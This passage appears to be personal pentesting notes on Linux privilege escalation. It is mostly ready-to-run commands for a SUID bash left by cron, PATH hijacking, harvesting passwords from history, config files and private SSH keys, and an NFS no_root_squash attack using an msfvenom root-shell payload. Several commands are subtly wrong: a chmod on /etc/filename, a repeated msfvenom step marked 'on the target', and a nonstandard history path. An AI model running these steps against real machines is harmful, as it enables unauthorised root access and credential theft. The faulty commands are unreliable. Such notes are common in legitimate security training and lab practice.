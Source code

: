 Wait until the cron executes
```bash
/tmp/bash -p
```

### Exploiting path variable
We take a look at executable files, if some files are run as a better user and some other files are run within the file, we can create a new file, with the same name as the second file and edit `$PATH` variable

```bash
echo $PATH
```

```bash
cd /tmp
echo "[whatever command we want to run]" > "name of the executable we're imitating"
```

```bash
echo "/bin/bash" > /tmp/filename
chmod +x /etc/filename	    # Make the file executable
export PATH=/tmp:$PATH  # Export the path
```

The file needs to be reexecuted
### History speeks too loud

Check in the  `history` file
```bash
cat ~/.history | less
```

### Configuration files
- They can contain directly a password
- They can link to a file that contains a password

### SSH private key
Suppose that you found the `id_rsa` private key from a remote user
You can connect as the user within the server by passing the private key
**Note :** Some keys are password protected, take a look at [[Hashcat]]
```bash
chmod 600 id_rsa
ssh -i id_rsa username@ipaddress
```

### NFS root_squashing
- This exploit relies on `nfs` misconfigurations

```bash
cat /etc/exports # We found no_root_squash
```
**Mount the nfs directory to our local machine :** 
```bash
sudo su
mkdir /tmp/nfs
mount -o rw,vers=2 -v -t nfs <targetIP>:/<targetpath> /tmp/nfs
```
**Generate the payload**
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +x /tmp/nfs/shell.elf
```
**On the target**
```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
